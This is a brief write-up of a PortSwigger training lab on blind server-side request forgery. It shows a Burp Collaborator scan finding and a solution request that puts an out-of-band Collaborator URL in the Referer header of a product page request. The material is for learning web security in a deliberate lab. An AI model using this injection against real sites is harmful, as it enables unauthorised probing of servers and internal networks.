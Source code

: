 # [Lab: Blind SSRF with out-of-band detection](https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection)

## Lab

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server.

## Scan

Burpsuite `collaborator everywhere` extension: detected `Collaborator Pingback (HTTP): Referer` at `/product`.

## Solutions

```http
GET /product?productId=5 HTTP/1.1
...
Referer: https://collaborator
```
